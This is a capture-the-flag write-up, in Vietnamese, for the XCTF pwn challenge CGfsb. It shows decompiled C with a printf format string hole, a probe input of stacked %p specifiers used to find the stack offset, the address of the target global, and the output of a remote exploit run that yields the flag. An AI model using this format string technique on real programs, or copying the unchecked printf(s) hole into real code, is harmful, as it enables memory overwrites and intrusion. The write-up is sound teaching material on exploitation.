 # XCTF - PWN Exercise - CGfsb

```c
#include<stdio.h>
int pwnme;

int __cdecl main(int argc, const char **argv, const char **envp)
{
  _DWORD buf[2]; // [esp+1Eh] [ebp-7Eh] BYREF
  __int16 v5; // [esp+26h] [ebp-76h]
  char s[100]; // [esp+28h] [ebp-74h] BYREF

  unsigned int v7; // [esp+8Ch] [ebp-10h]
  v7 = __readgsdword(0x14u);

  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
  
  buf[0] = 0;
  buf[1] = 0;
  v5 = 0;
  memset(s, 0, sizeof(s));
  puts("please tell me your name:");
  read(0, buf, 0xAu);
  puts("leave your message please:");
  fgets(s, 100, stdin);
  printf("hello %s", (const char *)buf);
  puts("your message is:");
  printf(s);
  if ( pwnme == 8 )
  {
    puts("you pwned me, here is your flag:\n");
    system("cat flag");
  }
  else
  {
    puts("Thank you!");
  }
  return 0;
}
```

Kiếm tra các flag secure trước.

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/7_CGfsb λ checksec CGfsb 
[*] '/home/l1j9m4/0_PWNable/ADworld_XCTF/Exersice/7_CGfsb/CGfsb'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Rất dễ để nhận ra có lỗi `format string` trên biến s và mục tiêu của chúng ta là làm giá trị của biến toàn cục `pwnme` = 8.

  +) Tìm xem chuỗi `s` bắt đầu từ parameter thứ mấy trên stack.

  +) Tìm địa chỉ của biến toàn cục `pwnme`.
    
```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/7_CGfsb λ ./CGfsb 
please tell me your name:
nigma
leave your message please:
AAAA-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p
hello nigma
your message is:
AAAA-0xff974ade-0xf7ebd580-0x1-(nil)-0x1-0xf7f0a990-0x696e0001-0xa616d67-(nil)-0x41414141-0x2d70252d-0x252d7025-0x70252d70
Thank you!
```

```
pwndbg> p &pwnme
$1 = (<data variable, no debug info> *) 0x804a068 <pwnme>
```

Chuỗi `s` bắt đầu từ parameter thứ 10 và biến toàn cục `pwnme` nằm ở địa chỉ `0x0804A068`. 

Tiến hành viết file [exploit.py](exploit.py) và khai thác:

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/7_CGfsb λ python2 exploit.py 
[+] Opening connection to 111.200.241.244 on port 60401: Done
[*] Switching to interactive mode
hello nigma
your message is:
h\xa0\x04AAAA
you pwned me, here is your flag:

cyberpeace{b1d70a92eb0bedd3af590ff7c27b828e}
[*] Got EOF while reading in interactive
$  
```
